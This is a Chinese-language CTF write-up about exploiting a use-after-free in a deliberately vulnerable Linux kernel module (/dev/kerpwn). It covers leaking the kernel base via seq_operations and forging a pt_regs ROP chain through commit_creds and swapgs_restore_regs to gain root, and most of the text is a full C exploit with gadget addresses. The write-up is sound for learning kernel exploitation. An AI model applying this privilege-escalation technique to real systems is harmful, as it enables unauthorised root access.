常见的内核堆菜单：cmd = 0x40：读取内核堆数据到用户态cmd = 0x30：释放内核堆，但是这里释放之后没有清空指针，存在uaf漏洞（这里ida把kfree参数识别掉了）cmd = 0x20：申请内核堆，限制了申请的obj对象大小 <=0x20cmd = 0x50：向内核堆写入

1. 利用思路：

* step I：利用uaf构造一个和seq\_operations一样大的结构体，通过open("proc/self/stat", O\_RDONLY)将其申请回来实现uaf，来泄漏seq\_operations中的 .text地址：
* stepII：覆盖这个函数指针为一个 add rsp,val..... ，这样gadget的地址，后面利用pt\_reg结构体提权：
* pt\_reg结构体伪造：用root权限提前拿到**inti\_cred（具有root凭证）的地址**，然后构造 pop\_rdi；inti\_cred\_addr；commit\_credsl；swapgs\_restore\_regs + offset。并同时触发read(seq\_fd,val,val)，从而在内核调用到第二部覆盖的gadget。

> [!NOTE]
>
> 这里用 swapgs\_restore\_regs\_and\_return\_to\_usermode + offset返回用户态，需要结合构造的pt\_reg选取合适的偏移offset，才能顺利返回用户态：
>
> 我们构造的pt\_reg结构体如下：
>
> 在调用到swapgs\_restore\_regs\_and\_return\_to\_usermode 准备返回用户态时，rsp指针指向pt\_reg结构体中rbx代表的位置：
>
> 
>
> 所以这里 swapgs\_restore\_regs\_and\_return\_to\_usermode 同样要从rbx开始（正常情况下swapgs\_restore\_regs\_and\_return\_to\_usermode 对应的是一个**完整的pt\_reg结构体**来返回用户态）：
>
> 
>
> 所以这里的swapgs\_restore\_regs + offset中的 offset=9。
>
> ==> 当然也可以走commit\_creds(prepare\_kernel\_cred(0))也可以，offset的值相应变化即可

```
__asm__(
     "mov r15,   0xbeefdead;"
     "mov r14,   pop_rdi_ret;"
     "mov r13,   init_cred;"
     "mov r12,   commit_creds_get;"
     "mov rbp,   swapgs_restore_regs;" 
     "mov rbx,   0xbeefdead;"	// 调用swapgs_restore_regs时rsp指向这里
     "mov r11,   0x11111111;"
     "mov r10,   0x10101010;"
     "mov r9,    0x99999999;"
     "mov r8,    0x88888888;"
     "xor rax,   rax;"
     "mov rcx,   0xaaaaaaaa;"
     "mov rdx,   8;"
     "mov rsi,   rsp;"
     "mov rdi,   seq_fd;" // 这里假定通过 seq_operations->stat 来触发
     "syscall");
```

```
struct pt_regs {
 unsigned long r15;
 unsigned long r14;
 unsigned long r13;
 unsigned long r12;
 unsigned long rbp;
 unsigned long rbx;	// <== rsp
 unsigned long r11;
 unsigned long r10;
 unsigned long r9;
 unsigned long r8;
 unsigned long rax;
 unsigned long rcx;
 unsigned long rdx;
 unsigned long rsi;
 unsigned long rdi;

 unsigned long orig_rax;
/* Return frame for iretq */
 unsigned long rip;
 unsigned long cs;
 unsigned long eflags;
 unsigned long rsp;
 unsigned long ss;
/* top of stack page */
};
```

1. exp如下：

```
#define _GNU_SOURCE
#include <sys/types.h>
#include <sys/ioctl.h>
#include <sys/prctl.h>
#include <sys/syscall.h>
#include <sys/mman.h>
#include <sys/wait.h>
#include <asm/ldt.h>
#include <stdio.h>
#include <signal.h>
#include <pthread.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <ctype.h>
#include <stdint.h>
#include "/home/bkbqwq/Desktop/kernel/plank/kernelpwn.h"


#define POP_RDI_RET 0xffffffff81089250

#define MOV_RDI_RAX_POP_RBP_ret 0xffffffff810243b6

#define INIT_CRED 0xffffffff82663300

#define add_rsp0x30_pop_r12_pop_rbp_ret 0xffffffff81057cf1
#define add_rsp_0x190_pop_rbx_pop_r12_pop_rbp_ret 0xffffffff810b2802 //
// >= 198
#define prepare_kernel_cred 0xffffffff810c91d0
#define commit_creds 0xffffffff810c8d40

#define work_for_cpu_fn 0xffffffff8107eab0
#define swapgs_restore_regs_and_return_to_usermode 0xffffffff81c00f30

struct tmp // 用于操作堆
{
    size_t index;
    size_t buf_size;
    char *user_ptr;
};

struct tmp_heap // 用于申请堆
{
    size_t obj_size;
    char *user_ptr;
};

void alloc(int dev_fd, void *ptr, size_t size)
{
    struct tmp_heap n = {
        .obj_size = size,
        .user_ptr = ptr,
    };

    ioctl(dev_fd, 0x20, &n);
}

void free_heap(int dev_fd, size_t index, size_t buf_size, void *ptr)
{
    struct tmp n = {
        .index = index,
        .buf_size = buf_size,
        .user_ptr = ptr,
    };
    ioctl(dev_fd, 0x30, &n);
}

// 写
void to_kernel(int dev_fd, size_t index, size_t buf_size, void *ptr)
{
    struct tmp n = {
        .index = index,
        .buf_size = buf_size,
        .user_ptr = ptr,
    };

    ioctl(dev_fd, 0x50, &n);
}

// 读
void to_user(int dev_fd, size_t index, size_t buf_size, void *ptr)
{
    struct tmp n = {
        .index = index,
        .buf_size = buf_size,
        .user_ptr = ptr,
    };

    ioctl(dev_fd, 0x40, &n);
}
size_t prepare_kernel_get;
size_t commit_creds_get;
size_t swapgs_restore_regs;
size_t pop_rdi_ret;
size_t mov_rdi_rax_pop_rbp_ret;
size_t seq_fd;
size_t init_cred;
int main(int argc, char **argv, char **envp)
{
    size_t *buf, pipe_buffer_addr, modprobe_path_addr;
    size_t desciption[0x100];

    /* fundamental works */
    size_t rip = get_root_shell;
    bind_core(0);
    buf = malloc(0x200);

    int fd1 = open("/dev/kerpwn", O_RDONLY);

    alloc(fd1, desciption, 0x20); // heap 0
    free_heap(fd1, 0, 0x100, buf);

    seq_fd = open("proc/self/stat", O_RDONLY); // 分配seq_operations结构体
    printf("%d
", seq_fd);
    to_user(fd1, 0, 0x100, buf);
    size_t kernel_offset = buf[0] - 0xffffffff81319d30;
    printf("get kernel_addr: %p 
", buf[0]);
    printf("kernel_offset : %ld 
", kernel_offset);

    prepare_kernel_get = kernel_offset + prepare_kernel_cred;
    commit_creds_get = kernel_offset + commit_creds;
    swapgs_restore_regs = kernel_offset + swapgs_restore_regs_and_return_to_usermode + 0x10;
    // swapgs_restore_regs = kernel_offset + swapgs_restore_regs_and_return_to_usermode + 9;
    pop_rdi_ret = kernel_offset + POP_RDI_RET;
    mov_rdi_rax_pop_rbp_ret = kernel_offset + 0xffffffff81029601;
    init_cred = kernel_offset + INIT_CRED;

    buf[0] = kernel_offset + add_rsp_0x190_pop_rbx_pop_r12_pop_rbp_ret;
    to_kernel(fd1, 0, 0x20, buf); // 覆盖seq

    // pt_reg结构体
    // __asm__(
    //     "mov r15,   0x15151515;"
    //     "mov r14,   pop_rdi_ret;"
    //     "mov r13,   init_cred;"
    //     "mov r12,   commit_creds_get;"
    //     "mov rbp,   swapgs_restore_regs;" // 从rbx开始清栈
    //     "mov rbx,   0xbeefdead;"
    //     "mov r11,   0x11111111;"
    //     "mov r10,   0x10101010;"
    //     "mov r9,    0x99999999;"
    //     "mov r8,    0x88888888;"
    //     "xor rax,   rax;"
    //     "mov rcx,   0xaaaaaaaa;"
    //     "mov rdx,   8;"
    //     "mov rsi,   rsp;"
    //     "mov rdi,   seq_fd;" // 这里假定通过 seq_operations->stat 来触发
    //     "syscall");

    __asm__(
        "mov r15,   0xbeefdead;"
        "mov r14,   pop_rdi_ret;"
        "mov r13,   0;"
        "mov r12,   prepare_kernel_get;"
        "mov rbp,   mov_rdi_rax_pop_rbp_ret;"
        "mov rbx,   0xbeefdead;"
        "mov r11,   0x11111111;"
        "mov r10,   commit_creds_get;"
        "mov r9,    swapgs_restore_regs;"
        "mov r8,    0x88888888;"
        "xor rax,   rax;"
        "mov rcx,   0xaaaaaaaa;"
        "mov rdx,   8;"
        "mov rsi,   rsp;"
        "mov rdi,   seq_fd;" // 这里假定通过 seq_operations->stat 来触发
        "syscall");

    get_root_shell();
    return 0;
}
```

最后成功提权：
